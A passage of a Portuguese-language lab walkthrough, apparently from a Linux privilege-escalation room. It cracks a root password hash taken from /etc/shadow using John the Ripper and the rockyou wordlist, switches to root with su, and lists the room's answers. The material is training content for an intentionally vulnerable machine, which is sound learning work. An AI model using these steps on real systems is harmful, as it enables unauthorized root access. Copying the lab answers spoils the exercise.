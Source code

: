 ```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:43:56
╰──➤ echo \$6\$Tb/euwmK\$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0 > root.hash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:44:00
╰──➤ cat root.hash
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:44:21
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:01 DONE (2023-03-03 04:44) 0.6993g/s 1074p/s 1074c/s 1074C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Agora que temos a senha do usuário `root`, vamos usar o comando `su` para nos autenticar como root.

```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

Agora basta responder as perguntas desse passo:

1. What is the root user's password hash?

   A hash que achamos no arquivo `/etc/shadow`:
    >  $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0


2. What hashing algorithm was used to produce the root user's password hash?

   Ao utulizar o comando `john` para quebrar a hash, ele nos informa que foi utilizado o algoritmo `sha512crypt`:
    >  sha512crypt

3. What is the root user's password?

   A senha que achamos ao quebrar a hash:
    >  password123


![passo3](passo3.png)

---